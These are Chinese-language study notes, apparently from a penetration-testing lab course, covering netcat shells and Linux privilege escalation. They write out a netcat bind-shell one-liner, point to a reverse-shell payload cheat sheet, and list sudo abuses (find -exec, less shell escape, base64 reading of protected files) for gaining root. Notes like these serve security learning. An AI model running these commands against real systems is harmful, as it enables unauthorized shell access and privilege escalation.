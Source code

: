 由于这几章实验内容比较多，就不在这展示了

# Shell and Web Shell

###### mkfifo /tmp/f; nc -lvnp {PORT} < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

###### nc的输出为/bin/bash的输入，/bin/bash的输出写入管道/tmp/f，/tmp/f为nc的输入.

比较简单, 主要是netcat和matesploit的使用

不用msfvenom生成shellcode payload也可以看在线网站：https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

包含了非常多的reverse shell payload

# Linux 权限提升

由于东西太多，只记录点重要的

    uname -a 信息收集
    /proc/version 信息收集
    ps -aux 进程表
    env 环境变量
    sudo -l 查看能sudo的命令
    find
    find ... 2>/dev/null 将错误丢垃圾桶，其他命令适用


### 内核漏洞利用

通过信息收集的系统内核版本，寻找存在的漏洞

在线网站: https://www.linuxkernelcves.com/

使用可用exp或者matesploit利用

### sudo -l

sudo允许我们以比当前用户更高的权限运行某个命令

如果sudo运行当前用户运行如：find、less、base64....等等

则可以尝试提权：

    sudo find . -exec /bin/bash \;  -exec 执行命令

.

    sudo less /etc/passwd 回车
    !/bin/bash 回车

.

    base64用于读取权限高的文件

